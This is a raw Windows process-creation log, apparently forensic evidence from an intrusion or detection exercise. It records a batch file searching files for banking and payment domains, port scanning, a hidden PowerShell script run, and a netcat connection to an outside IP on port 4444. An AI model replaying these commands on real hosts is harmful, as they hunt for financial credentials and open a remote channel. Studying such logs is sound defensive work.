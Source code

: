 ```powershell
2021-09-05T12:31:52.5254478+00:00, 1, findstr /m chase.com *, cmd.exe new1.bat
2021-09-05T12:31:52.5427721+00:00, 1, findstr /m capitalone.com *, cmd.exe new1.bat
2021-09-05T12:31:52.5705149+00:00, 1, findstr /m paysurfer.com *, cmd.exe new1.bat
2021-09-05T12:31:52.6211631+00:00, 1, findstr /m wellsfargo.com *, cmd.exe new1.bat
2021-09-05T12:31:52.6487945+00:00, 1, findstr /m suntrust.com *, cmd.exe new1.bat
2021-09-05T12:31:52.7217792+00:00, 1, findstr /m dwolla.com *, cmd.exe new1.bat
2021-09-05T12:31:52.7463539+00:00, 1, findstr /m gopayment.com *, cmd.exe new1.bat
2021-09-05T12:31:52.7641174+00:00, 1, findstr /m .v.me *, cmd.exe new1.bat
2021-09-05T12:31:52.7825803+00:00, 1, findstr /m westernunion.com *, cmd.exe new1.bat
2021-09-05T12:31:52.8112823+00:00, 1, findstr /m paypal.comcookie_check *, cmd.exe new1.bat
2021-09-05T12:31:52.8324562+00:00, 1, findstr /m entropay.com *, cmd.exe new1.bat
2021-09-05T12:31:52.8719142+00:00, 1, findstr /m wepay.com *, cmd.exe new1.bat
2021-09-05T12:31:52.8990071+00:00, 1, findstr /m account.skrill.com *, cmd.exe new1.bat
2021-09-05T12:31:52.9203107+00:00, 1, findstr /m 2checkout.com *, cmd.exe new1.bat
2021-09-05T12:31:52.9556973+00:00, 1, findstr /m neteller.com *, cmd.exe new1.bat
2021-09-05T12:31:53.0111759+00:00, 1, findstr /m cookie_check.paypal.com *, cmd.exe new1.bat
2021-09-05T12:31:53.0465721+00:00, 1, C:\WINDOWS\system32\cmd.exe /S /D /c" TYPE win_install.log.txt ", cmd.exe new1.bat
2021-09-05T12:32:24.3645426+00:00, 1, ipconfig, cmd.exe new1.bat

2021-09-05T12:32:42.1712703+00:00, 1, "C:\Users\Administrator\Downloads\Advanced_Port_Scanner_2.5.3869.exe", "C:\Program Files\Google\Chrome\Application\chrome.exe"
2021-09-05T12:32:42.9236418+00:00, 1, "C:\Users\ADMINI~1\AppData\Local\Temp\2\is-BNNEE.tmp\Advanced_Port_Scanner_2.5.3869.tmp" /SL5="$1102E2,19769177,139776,C:\Users\Administrator\Downloads\Advanced_Port_Scanner_2.5.3869.exe", "C:\Users\Administrator\Downloads\Advanced_Port_Scanner_2.5.3869.exe"
2021-09-05T12:33:05.2372213+00:00, 1, "C:\Users\ADMINI~1\AppData\Local\Temp\2\Advanced Port Scanner 2\advanced_port_scanner.exe" /portable "C:/Users/Administrator/Downloads/" /lng en_us, "C:\Users\ADMINI~1\AppData\Local\Temp\2\is-BNNEE.tmp\Advanced_Port_Scanner_2.5.3869.tmp" /SL5="$1102E2,19769177,139776,C:\Users\Administrator\Downloads\Advanced_Port_Scanner_2.5.3869.exe"
2021-09-05T12:39:14.9126030+00:00, 1, "C:\Windows\System32\explorer.exe" \\172.31.23.102, "C:\Users\ADMINI~1\AppData\Local\Temp\2\Advanced Port Scanner 2\advanced_port_scanner.exe" /portable "C:/Users/Administrator/Downloads/" /lng en_us

2021-09-05T12:43:23.0839733+00:00, 1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe" "C:\Users\Public\Documents\endpoint.ps1", C:\Windows\Explorer.EXE
2021-09-05T12:43:45.3925137+00:00, 1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe" "C:\Users\Public\Documents\endpoint.ps1", C:\Windows\Explorer.EXE
2021-09-05T12:44:06.8425008+00:00, 1, "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Public\Documents\endpoint.txt, C:\Windows\Explorer.EXE
2021-09-05T12:45:00.4355424+00:00, 1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe" "C:\Users\Public\Documents\endpoint.ps1", C:\Windows\Explorer.EXE
2021-09-05T12:47:42.0709584+00:00, 1, "C:\Windows\regedit.exe", C:\Windows\Explorer.EXE
2021-09-05T12:49:31.1083835+00:00, 1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell_ise.exe" "C:\Users\Public\Documents\endpoint.ps1", C:\Windows\Explorer.EXE
2021-09-05T12:50:09.8753361+00:00, 1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -nop .\endpoint.ps1, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
2021-09-05T12:50:12.3726334+00:00, 1, "c:\windows\syswow64\windowspowershell\v1.0\powershell.exe" -Version 5.1 -s -NoLogo -NoProfile, "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -nop .\endpoint.ps1

2021-09-05T12:51:06.3268057+00:00, 1, "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Downloads\nc111nt\readme.txt, C:\Windows\Explorer.EXE
2021-09-05T12:52:20.4110984+00:00, 1, nc, "C:\Windows\System32\cmd.exe"
2021-09-05T12:55:30.3393755+00:00, 1, nc -w 3 3.16.42.241 4444, "C:\Windows\System32\cmd.exe"
```
